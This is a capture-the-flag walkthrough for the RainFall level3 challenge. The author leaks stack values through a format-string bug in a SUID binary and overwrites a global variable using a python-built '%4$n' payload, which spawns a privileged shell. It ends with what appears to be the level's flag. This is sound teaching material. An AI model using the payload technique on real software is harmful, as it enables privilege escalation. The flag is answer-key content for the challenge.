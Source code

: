 In this file we can see that our bash execution is only behind a single condition check

There may be other ways to do it, but we can simply use gdb to go untill the condition and set the register manually

Uh nervermind, it seems that we loose suid thanks to GDB

Turns out the comparaison is carried on a global variable, that can be found at address 0x804988c

https://cs.boisestate.edu/~jhyeh/cs546/Format-String-Lecture.pdf

Ok but what now ?

What if there is more % than there is arguments ?

```
level3@RainFall:~$ ./level3
%x %x %x %x %x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078
```
Ok so we do get some values
```
level3@RainFall:~$ ./level3
AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x
AAAA 200 AAAA b7fd1ac0 AAAA b7ff37d0 AAAA 41414141 AAAA 20782520 AAAA �41414141
```

We can see that we find the 41 value wich is our A, interesting

```
level3@RainFall:~$ ./level3
AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x AAAA %x
AAAA 200 AAAA b7fd1ac0 AAAA b7ff37d0 AAAA 41414141 AAAA 20782520 AAAA �41414141
```


``` 
level3@RainFall:~$ ./level3
AAAA %x %x %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
``` 

Ok so it seems that the fourth arguments that printf takes is the string itself, we may be able to do something about it 

Lets try printing our value

\x8c\x98\x04\x08 %x %x %x %s

yeah we get a segault because there is probably no null termination

Turns out we can write to a pointer using the %n modifier, %n writes to a pointed value the number of chars it has printed so far


level3@RainFall:~$ python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%c%c%c%n")' > /tmp/exploit2

Does not work because the chars are not printable is my guess

level3@RainFall:~$ python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/exploit2

Does work however cuz we select the fourth argument directly


b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa